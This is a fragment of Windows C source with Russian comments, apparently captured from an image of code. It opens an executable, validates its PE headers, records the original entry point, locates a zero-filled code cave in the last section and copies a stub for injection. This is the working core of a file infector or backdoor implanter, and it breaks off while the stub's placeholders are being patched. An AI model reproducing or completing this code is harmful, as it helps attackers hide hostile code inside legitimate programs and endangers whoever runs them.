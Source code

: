 ```c
    }
 
    hMap = (LPBYTE)MapViewOfFile(hFileMap, FILE_MAP_ALL_ACCESS, 0, 0, fsize);
    if(!hMap){
        printf("[-] MapViewOfFile failed\n");
        CloseHandle(hFileMap);
        CloseHandle(hFile);
        return 0;
    }
     
    // проверяем сигнатуры
    pDosHeader = (PIMAGE_DOS_HEADER)hMap;
    if(pDosHeader->e_magic != IMAGE_DOS_SIGNATURE){
        printf("[-] DOS signature not found\n");
        goto cleanup;
    }
     
    pNtHeaders = (PIMAGE_NT_HEADERS)((DWORD)hMap + pDosHeader->e_lfanew);
    if(pNtHeaders->Signature != IMAGE_NT_SIGNATURE){
        printf("[-] NT signature not found\n");
        goto cleanup;
    }
     
    // берем заголовок последней секции...
    pSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD)hMap + pDosHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS));
    pSection = pSectionHeader;
    pSection += (pNtHeaders->FileHeader.NumberOfSections - 1);
     
    // сохраняем точку входа
    oep = oepRva = pNtHeaders->OptionalHeader.AddressOfEntryPoint;
    oep += (pSectionHeader->PointerToRawData) - (pSectionHeader->VirtualAddress);
     
    // определяем свободное место
    i = pSection->PointerToRawData;
    for(; i != fsize; i++){
        if((char *)hMap[i] == 0x00){
            if(charcounter++ == stubLength + 24){
                printf("[+] Code cave located @ 0x%08lX\n", i);
                writeOffset = i;
            }
        }else charcounter = 0;
    }
 
    if(charcounter == 0 || writeOffset == 0){
        printf("[-] Could not locate a big enough code cave\n");
        goto cleanup;
    }
     
    writeOffset -= stubLength;
     
    stub = (unsigned char *)malloc(stubLength + 1);
    if(!stub){
        printf("[-] Error allocating sufficent memory for code\n");
        goto cleanup;
    }
     
    // копируем код в буфер
    memcpy(stub, StubStart, stubLength);
     
    // определяем смещения до заглушек в коде
    for(i = 0, charcounter = 0; i != stubLength; i++){
        if(stub[i] == 0xCC){
```
